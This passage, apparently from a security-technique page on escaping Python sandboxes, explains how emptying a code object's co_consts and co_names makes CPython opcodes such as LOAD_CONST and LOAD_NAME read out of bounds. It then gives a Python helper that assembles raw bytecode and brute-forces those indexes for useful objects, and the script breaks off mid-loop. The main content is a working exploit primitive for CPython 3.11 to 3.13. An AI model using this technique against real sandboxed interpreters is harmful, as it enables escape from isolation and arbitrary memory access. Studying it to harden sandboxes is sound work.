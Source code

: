 ```
---

### Version notes and affected opcodes (Python 3.11–3.13)

- CPython bytecode opcodes still index into `co_consts` and `co_names` tuples by integer operands. If an attacker can force these tuples to be empty (or smaller than the maximum index used by the bytecode), the interpreter will read out-of-bounds memory for that index, yielding an arbitrary PyObject pointer from nearby memory. Relevant opcodes include at least:
  - `LOAD_CONST consti` → reads `co_consts[consti]`.
  - `LOAD_NAME namei`, `STORE_NAME`, `DELETE_NAME`, `LOAD_GLOBAL`, `STORE_GLOBAL`, `IMPORT_NAME`, `IMPORT_FROM`, `LOAD_ATTR`, `STORE_ATTR` → read names from `co_names[...]` (for 3.11+ note `LOAD_ATTR`/`LOAD_GLOBAL` store flag bits in the low bit; the actual index is `namei >> 1`). See the disassembler docs for exact semantics per version. [Python dis docs].
- Python 3.11+ introduced adaptive/inline caches that add hidden `CACHE` entries between instructions. This doesn’t change the OOB primitive; it only means that if you handcraft bytecode, you must account for those cache entries when building `co_code`.

Practical implication: the technique in this page continues to work on CPython 3.11, 3.12 and 3.13 when you can control a code object (e.g., via `CodeType.replace(...)`) and shrink `co_consts`/`co_names`.

### Quick scanner for useful OOB indexes (3.11+/3.12+ compatible)

If you prefer to probe for interesting objects directly from bytecode rather than from high-level source, you can generate minimal code objects and brute force indices. The helper below automatically inserts inline caches when needed.

```python
import dis, types

def assemble(ops):
    # ops: list of (opname, arg) pairs
    cache = bytes([dis.opmap.get("CACHE", 0), 0])
    out = bytearray()
    for op, arg in ops:
        opc = dis.opmap[op]
        out += bytes([opc, arg])
        # Python >=3.11 inserts per-opcode inline cache entries
        ncache = getattr(dis, "_inline_cache_entries", {}).get(opc, 0)
        out += cache * ncache
    return bytes(out)

# Reuse an existing function's code layout to simplify CodeType construction
base = (lambda: None).__code__

# Example: probe co_consts[i] with LOAD_CONST i and return it
# co_consts/co_names are intentionally empty so LOAD_* goes OOB

def probe_const(i):
    code = assemble([
        ("RESUME", 0),          # 3.11+
        ("LOAD_CONST", i),
        ("RETURN_VALUE", 0),
    ])
    c = base.replace(co_code=code, co_consts=(), co_names=())
    try:
        return eval(c)
    except Exception:
        return None

for idx in range(0, 300):
    obj = probe_const(idx)
    if obj is not None:
```